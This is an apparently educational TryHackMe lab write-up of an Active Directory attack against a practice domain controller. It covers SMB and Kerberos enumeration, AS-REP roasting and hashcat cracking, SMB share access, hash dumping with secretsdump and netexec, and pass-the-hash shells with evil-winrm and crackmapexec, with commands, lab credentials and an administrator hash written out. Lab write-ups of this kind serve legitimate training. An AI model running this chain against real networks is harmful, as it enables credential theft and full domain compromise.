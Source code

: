 # Active Directory Exploitation Walkthrough

> 99% of Corporate networks run off of AD. But can you exploit a vulnerable Domain Controller?

## Enumeration

Starting off with an Nmap scan on the target (I have already exported the IP address of the target to the variable `$target`):

```bash
nmap -p- -sV -sC $target --open
```

We can see the Active Directory domain: `spookysec.local`.

This is a typical AD setup with services like Kerberos, SMB, RPC, and LDAP running. Let's enumerate these services one by one.

---

## SMB

Nmap revealed SMB ports open on **139, 445**.

### Tools:
- `enum4linux`
- `nmap` SMB scripts
- `crackmapexec`

Running:

```bash
enum4linux -smb $target

nmap -p139,445 --script=smb-enum-shares -sC $target

crackmapexec smb $target
```

> Why is port 445 open?  
Basic domain functions (remote file access, software deployment, system management) require it.

**crackmapexec** reveals:
- Hostname: `ATTACKTIVEDIREC`
- Domain: `spookysec.local`
- OS: Windows 10 / Server 2019 Build 17763

**enum4linux** reveals:
- Domain SID
- NetBIOS name

---

## Kerberos User Enumeration (Kerbrute)

This TryHackMe box comes with a user/password list.

```bash
sudo ./kerbrute_linux_amd64 userenum --dc $target -d spookysec.local userlist.txt
```

**Notable valid users:**
- `svc-admin`
- `administrator`
- `backup`

---

## AS-REP Roasting

ASReproasting targets users **without pre-authentication** required.

> AS-REP = Authentication Server Reply  
> Roasting = Extracting Kerberos-encrypted values for offline cracking

Using Impacket's `GetNPUsers.py`:

```bash
python3 examples/GetNPUsers.py spookysec.local/ -no-pass \
  -usersfile /home/kali/Downloads/userlist.txt -dc-ip 10.10.28.119
```

Result:

```text
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:[hash...]
```

### Hash Info:
- **Hash Type**: Kerberos 5, etype 23, AS-REP
- **Hashcat Mode**: 18200

### Cracking with Hashcat:

```bash
hashcat -m 18200 hash.txt wordlist.txt
```

**Credentials:**
- Username: `svc-admin`
- Password: `management2005`

---

## SMBCLIENT (Accessing Shares)

Use found credentials:

```bash
smbclient -L \\$target -U svc-admin
```

To avoid the password prompt:

```bash
smbclient -L \\$target -U svc-admin%management2005
```

### Accessing a Share:

```bash
smbclient \\$target\backup -U svc-admin%management2005
```

Graphical Alternative (Kali GUI):
- Use `smb://IP/backup` in File Manager

---

## Downloading Files

Example:

```bash
get backup_credentials.txt
```

### Decode base64:

```bash
base64 -d backup_credentials.txt
```

---

## secretsdump.py (Dumping Hashes)

Use backup credentials:

```bash
python3 examples/secretsdump.py spookysec.local/backup:backup2517860@$target
```

**Administrator Hash:**
```
0e0363213e37b94221497260b0bcb4fc
```

---

## Pass-the-Hash with Evil-WinRM

```bash
evil-winrm -H 0e0363213e37b94221497260b0bcb4fc \
  -i 10.10.157.141 -u Administrator
```

> You should now have shell access. Use `cd`, `dir`, and `type` to browse and read files.

---

## Alternative Tools

### Netexec

```bash
netexec smb 10.10.157.141 -u backup -p backup2517860 --ntds
```

### crackmapexec (Command Execution)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -x "whoami"
```

### crackmapexec (PowerShell)

```bash
crackmapexec smb 10.10.157.141 -u Administrator \
  -H 0e0363213e37b94221497260b0bcb4fc -X "whoami"
```

> PowerShell execution may be blocked by antivirus.

---

## Conclusion

Thanks for reading.  
If you have questions or want to share your thoughts, feel free to comment below.